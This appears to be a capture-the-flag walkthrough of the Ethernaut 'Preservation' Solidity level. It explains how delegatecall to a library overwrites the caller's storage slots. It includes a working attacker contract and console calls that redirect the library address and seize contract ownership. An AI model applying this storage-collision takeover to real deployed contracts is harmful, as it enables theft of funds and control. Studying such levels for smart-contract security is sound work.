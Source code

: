 # Preservation

## Delegatecall
> delegatecall is a low level function similar to call.

> When contract A executes delegatecall to contract B, B's code is excuted with contract A's storage, msg.sender and msg.value.

```solidity
// public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

Let's look at the delegatecall methods : 

```solidity
// set the time for timezone 1
function setFirstTime(uint _timeStamp) public {
  timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}
```

When contract A(Preservation) executes delegatecall to B(LibraryContract), B(LibraryContract)'s code(setTimeSignature(_timeStamp)) is excuted with A(Preservation)'s storage(timeZone1Library, timeZone2Library, owner, storedTime), msg.sender(myContract) and msg.value(0).

So *setTime(uint _time)* is being called with *_timestamp*, *Preservation*'s storage, msg.sender and msg.value. How can I abuse this? Is there a way to inject a malicious contract through *_timestamp*?

Fast forward an hour of no progress I gave up and looked at a hint :'c.

> If Contract A makes a delegatecall to Contract B, it allows Contract B to freely mutate its storage A, given Contract B’s relative storage reference pointers.

Looking at *Preservation*'s storage using web3.eth.getStorageAt(contract.address, 0): 

> slot 0 = 0x0000000000000000000000007dc17e761933d24f4917ef373f6433d4a62fe3c5= 20/32 bytes (timeZone1Library)

> slot 1 = 0x000000000000000000000000ea0de41efafa05e2a54d1cd3ec8ce154b1bb78f1= 20/32 bytes (timeZone2Library) 

> slot 2 = 0x00000000000000000000000097e982a15fbb1c28f6b8ee971bec15c78b3d263f = 20/32 bytes (owner)

> slot 2 = 0x0 = 0/32 bytes (storedTime)

If we can manipulate *LibraryContract*'s storedTime, it will mutate *Preservation*'s *timeZone1Library* variable, because *storedTime* is a pointer to slot 0 in *Preservation*. 

I had a misconception that *storedTime* in *LibraryContract* pointed to *storedTime* in *Preservation*, so in this case the code doesnt really work in the first place.

Trying out : 

> contract.setFirstTime(1)

Will set slot 0 to 0x1, which is correct after checking. All we have to do now is to create a malicious contract that has a malicious *setTime(uint _time)* method that lets us change the owner to ourself.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract hackedLibraryContract {

  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;

  function setTime(uint _time) public {
    owner = 0x36b19c3573beE32B810076d195FC15baFC72a562;
  }
}
```
See how we initialized the variables the same way as in *Preservation*, so *owner* will change slot 2 in *Preservation* unlike before where it changed slot 0, plain and simple. After calling :

> await contract.setFirstTime('0xA221A4D5c563295F536EeE6e32082EA5C43fEba0')

which is the address of my deployed contract, just calling :

> await contract.setFirstTime(1)

will trigger our malicious contract, and make us the owner
